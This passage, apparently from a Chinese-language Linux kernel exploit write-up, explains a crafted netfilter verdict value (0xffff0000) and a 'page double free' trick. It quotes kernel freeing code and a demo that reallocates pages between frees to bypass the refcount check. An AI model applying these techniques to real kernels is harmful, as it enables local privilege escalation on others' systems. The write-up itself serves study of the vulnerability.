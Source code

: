 

    1. verdict & NF_VERDICT_MASK == NF_DROP;
    2. NF_DROP_GETERR(verdict) == NF_ACCEPT;

因此计算得出可以构造`verdict = 0xffff0000`即可满足这样一个条件


# 相关技巧
## Page Double Free
从`__free_pages()`函数可以看出

```c

void __free_pages(struct page *page, unsigned int order)
{
	/* get PageHead before we drop reference */
	int head = PageHead(page);

	if (put_page_testzero(page))
		free_the_page(page, order);
	else if (!head)
		while (order-- > 0)
			free_the_page(page + (1 << order), order);
}
EXPORT_SYMBOL(__free_pages);
```

当使用`put_page_testzero()`发现页面的引用计数为1,则将释放他
而如果此时我们不做任何事直接将他应用在double free上，则`put_page_testzero()`将会发现`page.refcount == 0`从而报错
```c
static inline int put_page_testzero(struct page *page)
{
	VM_BUG_ON_PAGE(page_ref_count(page) == 0, page);
	return page_ref_dec_and_test(page);
}
```

因此可以在double free中途插入重分配，使得refcount++,这样就可以绕过这部分检查
作者的例子如下:
```c
static void kref_juggling(void)
{
    struct page *skb1, *pmd, *pud;

    skb1 = alloc_page(GFP_KERNEL);  // refcount 0 -> 1
    __free_page(skb1);  // refcount 1 -> 0
    pmd = alloc_page(GFP_KERNEL);  // refcount 0 -> 1
    __free_page(skb1);  // refcount 1 -> 0
    pud = alloc_page(GFP_KERNEL);  // refcount 0 -> 1

    pr_err("[*] skb1: %px (phys: %016llx), pmd: %px (phys: %016llx), pud: %px (phys: %016llx)\n", skb1, page_to_phys(skb1), pmd, page_to_phys(pmd), pud, page_to_phys(pud));
}
```
